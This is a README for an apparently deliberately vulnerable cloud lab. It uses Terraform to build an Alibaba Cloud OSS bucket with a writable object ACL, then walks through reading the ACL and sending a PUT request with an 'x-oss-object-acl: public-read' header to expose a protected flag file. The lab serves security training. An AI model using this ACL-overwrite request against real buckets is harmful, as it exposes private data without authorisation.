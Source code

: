 # Description

English | [中文](./README_CN.md)

This is a script that helps you quickly build ACL read/write scenarios for storage bucket objects

Although you may not encounter it in a real situation, but have fun!

## Git clone

```bash
cd /TerraformGoat/aliyun/object_storage_service/object_acl_writable/ 
```

```bash
terraform init
```

![image-20220425190538237](../../../images/image-20220425190538237.png)

```bash
terraform apply
```

![image-20220425190558881](../../../images/image-20220425190558881.png)

After confirming that there are no problems, type yes and enter to quickly build

![image-20220425190632275](../../../images/image-20220425190632275.png)

Access the /flag.txt of this bucket directly

![image-20220425190700830](../../../images/image-20220425190700830.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error>
  <Code>AccessDenied</Code>
  <Message>You do not have read permission on this object.</Message>
  <RequestId>626680CFF343753037B4C0F6</RequestId>
  <HostId>hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com</HostId>
</Error>
```

But we can check the ACL permissions of this object via *?acl*

![image-20220425190747906](../../../images/image-20220425190747906.png)

The ACL of the object can then be changed to public-read by the PUT method, and we need to add the *x-oss-object-acl* parameter to the request header

```http
PUT /flag.txt?acl HTTP/1.1
Host: hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com
x-oss-object-acl: public-read
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: image/avif,image/webp,*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com/
```

![image-20220425190836248](../../../images/image-20220425190836248.png)

Successfully modified the object's ACL, now use the GET method to get

![image-20220425191033750](../../../images/image-20220425191033750.png)

## Destruction Challenge

```bash
terraform destroy
```

Then just type yes and wait for the destruction

![image-20220425191136549](../../../images/image-20220425191136549.png)
